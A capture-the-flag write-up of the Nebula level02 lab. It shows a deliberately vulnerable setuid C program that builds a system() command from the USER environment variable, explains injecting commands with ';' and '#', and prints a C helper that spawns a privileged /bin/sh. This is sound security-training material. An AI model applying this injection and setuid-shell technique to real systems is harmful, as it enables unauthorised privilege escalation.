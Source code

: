 ## level02

[Level02's Description](https://exploit-exercises.com/nebula/level02/):
{% blockquote %}
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
{% endblockquote %}

With the description we are provided with the source code of a small C program:

```c level2.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

Level02 is very similar to Level01, except for that fact that here the line `/bin/echo %s is cool` is copied to `buffer` and eventually put through a `system()` call. The value of the current environment variable `USER` is added to the command. This is another easy exploit where a simple shell escape will do to get us our own shell. I prepped the shell to echo the word bob, the delimit the command with a ; character and specify the command I want to run. I then end it off with a hash (#) to ignore the rest of the commands that the program has hard coded (*is cool* in this case).

So, to solve level02:

```bash
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool

level02@nebula:/home/flag02$ USER="bob" && ./flag02
about to call system("/bin/echo bob is cool")
bob is cool

level02@nebula:/home/flag02$ cat /var/tmp/shell.c
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

```